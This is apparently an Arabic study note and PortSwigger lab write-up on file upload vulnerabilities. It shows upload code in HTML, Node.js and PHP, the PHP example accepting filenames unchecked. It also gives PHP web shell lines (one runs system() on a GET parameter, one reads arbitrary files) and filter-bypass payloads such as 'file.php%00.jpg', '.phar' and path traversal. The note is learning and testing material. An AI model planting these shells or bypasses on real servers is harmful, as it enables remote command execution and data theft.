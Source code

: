 #### «إنَّ الحمدَ للهِ ، نحمدُه ونستعينُه ونستهديه ونستغفِرُه ، ونعوذُ باللهِ من شرورِ أنفسنِا ومن سيِّئاتِ أعمالِنا ، من يهدِه اللهُ فلا مُضلَّ له ، ومن يُضلِلْ فلا هاديَ له ، وأشهدُ أن لا إلهَ إلَّا اللهُ وحدَه لا شريكَ له ، وأشهدُ أنَّ محمَّدًا عبدُه ورسولُه»
---
### أي هي ثغرة ال File Upload ؟

هي عملية تمكن المستخدمين من تحميل ملفات من أجهزتهم المحلية (مثل الصور، الفيديوهات، أو المستندات) إلى خادم ويب أو نظام معين. يتم استخدامه بشكل شائع في نماذج الويب مثل مواقع رفع الصور، المنتديات، أو تطبيقات الويب.
### خطوات عمل فانكشن رفع الملفات:

### 1. **الجزء الخاص بالواجهة الأمامية (Front-End):**

تحتاج إلى عنصر HTML يقوم بتمكين المستخدم من اختيار ملف، ويتم ذلك باستخدام العنصر `<input>` مع النوع `file`:

```html
<form action="/upload" method="POST" enctype="multipart/form-data">
  <label for="file">اختر ملف:</label>
  <input type="file" id="file" name="file" />
  <button type="submit">رفع الملف</button>
</form>
```

- ال **`enctype="multipart/form-data"`**: ضروري لضمان إرسال البيانات بالشكل الصحيح.
- ال **`name="file"`**: يحدد اسم الملف الذي سيتم التعامل معه على الخادم.

### 2. **الجزء الخاص بالواجهة الخلفية (Back-End):**

في الخادم، يتم استلام الملف ومعالجته. على سبيل المثال، باستخدام **Node.js** مع مكتبة `express` و`multer` لرفع الملفات:

```jsx
const express = require('express');
const multer = require('multer');
const app = express();

// إعداد التخزين
const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    cb(null, 'uploads/'); // مجلد حفظ الملفات
  },
  filename: (req, file, cb) => {
    cb(null, Date.now() + '-' + file.originalname); // اسم الملف
  }
});

const upload = multer({ storage });

app.post('/upload', upload.single('file'), (req, res) => {
  res.send('تم رفع الملف بنجاح!');
});

app.listen(3000, () => {
  console.log('الخادم يعمل على المنفذ 3000');
});
```

### 3. **توضيح الكود اللي فوق:**

- **`multer`**: مكتبة Node.js لمعالجة الملفات.
- **`diskStorage`**: يحدد أين وكيف يتم حفظ الملفات.
- **`upload.single('file')`**: يقبل ملفًا واحدًا مرفوعًا مع الحقل `file`.

### 4. **التحقق من الملف (Validation):**

للتحقق من الملفات المرفوعة، يمكن التحقق من:

- **النوع (Type):** السماح بتحميل أنواع معينة فقط مثل الصور (`image/jpeg`, `image/png`).
- **الحجم (Size):** رفض الملفات التي تتجاوز حجمًا معينًا.

```jsx
const upload = multer({
  storage,
  fileFilter: (req, file, cb) => {
    if (!file.mimetype.startsWith('image/')) {
      return cb(new Error('يُسمح فقط برفع الصور'));
    }
    cb(null, true);
  },
  limits: { fileSize: 5 * 1024 * 1024 } // الحد الأقصى 5 ميجابايت
});

```

### 5. **إدارة الملفات المرفوعة:**

- **التخزين المحلي (Local Storage):** تخزين الملفات في مجلدات على الخادم.
- **التخزين السحابي (Cloud Storage):** مثل Amazon S3 أو Google Cloud Storage لتحسين الأمان والوصول.

### مثال عملي:

إذا كنت تعمل على تطبيق بلغة PHP، يمكنك استخدام `$_FILES` لمعالجة الملفات:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $uploadDir = 'uploads/';
    $uploadFile = $uploadDir . basename($_FILES['file']['name']);

    if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadFile)) {
        echo "تم رفع الملف بنجاح!";
    } else {
        echo "حدث خطأ أثناء رفع الملف.";
    }
}
?>
```

### مصادر تساعدك وانت بتعمل تيست:
[hacker tricks](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)
[payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

### أي هو الكود اللي هترفعه ك POC ؟

- لو انت عايز تفتح `file` انت عارفو يبقي هتعمل الكود ده

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

- لو عايز تخليه زي ال `command line` بيقبل منك أي `command` يبقي كدة

```php
<?php echo system($_GET['command']); ?>
```

ولما تيجي تستخدمو في الموقع هيبقي كدة
`GET /example/exploit.php?command=id HTTP/1.1`

### أزاي تعمل test عالثغرة دي؟

لما تيجي ترفع الصورة - الطبيعي يبقي فيه شوية حاجات ثابتة زي `file extention` and `content-type` and `file content` فأنت بتحاول علي قد ما تقدر تغير في دول الأول عشان تعرف الموقع شغال ازاي:

- لو ال file extention كدة `image.png` هنخليه كدة `image.php` وتشوف ال response
- لو ال content-type كدة `image/png` هنخليه كدة `application/x-php` وتشوف ال response
- وتحاول تغير المحتوي بتاع الصورة لأي كود php وليكن `echo 23`

### حل لابات بورت سويجر؟

- أول لاب - مكنش محمي أطلاقا وقدرت أرفع الشيل بكل سهولة - بمعني أصح (مفهوش فكرة)
- تاني لاب - الحاجه الوحيدة اللي كانت محمية (بس مش بشكل كويس) هي ال `content-type`
- تالت لاب - فاكرين ثغرة ال `Path Traversal` ” هي دي البطلة بتاعتنا في اللاب ده ” لأن الحماية الوحيدة اللي موجودة هي ان الصفحة اللي بيترفع فيها الشيل مش بيrender ال code ولكن بيتعامل معاه علي أنه `text file` فجربت عند اسم ال `file` أحط `/..` ونفعت فكان ده البايلود `file.php/..` وكنت عامل `encode` لل `/`
- رابع لاب - كان عامل `Black List` وحاطت فيها `extentions` مش عايزها تتحط ف من المستحيل انه يحط كل ال `extentions` ف بعد ما وقت لقيت `phar` جربتها ونفعت
- خامس لاب - هنا بقي كان عامل `white list` ودي كان حاطت انه مينفعش يترفع ملف غيره وامتداده `jpg or png` ومشش عامل حماية علي اي حاجه تاني ف عملت كدة `file.php%00.jpg` وده بأختصار بيحذف أي حاجه بعد ال `php`
- سادس لاب - هنا بيعمل `validation` علي ال `content` بتاع الصورة ف عشان نحل الموضوع ده جربنا اننا ن `inject` كود `php` في نص محتوي الصورة والموضوع عدي بسلاسة ونعومة

### نصائح:

- تأكد من أمان عملية رفع الملفات (مثل التحقق من نوع الملف وحجمه).
- امنع تنفيذ الملفات المرفوعة إذا كانت على الخادم لتجنب الهجمات.
- استخدم أنظمة سحابية إذا كنت تتعامل مع ملفات كبيرة أو العديد من المستخدمين.